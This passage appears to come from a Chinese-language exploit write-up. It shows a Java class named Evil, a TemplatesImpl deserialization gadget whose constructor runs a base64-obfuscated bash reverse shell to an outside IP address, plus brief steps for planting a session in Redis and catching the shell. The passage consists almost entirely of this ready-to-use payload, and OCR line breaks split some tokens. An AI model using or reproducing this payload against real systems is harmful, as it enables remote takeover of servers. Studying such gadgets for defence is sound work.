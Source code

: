 ## exp 编写

```bash
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
public class Evil extends AbstractTranslet {
public void transform(DOM document, SerializationHandler[] handlers) t
hrows TransletException {}
public void transform(DOM document, DTMAxisIterator iterator, Serializ
ationHandler handler) throws TransletException {}
public Evil() throws Exception {
Process p = null;
try {
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvd
GNwLzEwMy4xNDguMjQ0LjE1MS84ODc3IDA+JjE=}|{base64,-d}|{bash,-i}");
p.waitFor();
} catch (Exception e) {
e.printStackTrace();
}
}
}
```

在 redisdb 中写入 session

[![](assets/1699257095-3c27d4d19adbe4a89783ec38eeb45e42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103214918-c8969df8-7a4f-1.png)

然后使用 bash 进行反弹 shell。

[![](assets/1699257095-9fca3b2993d882d34ee6ed75bd69aad0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103214924-cc530cec-7a4f-1.png)
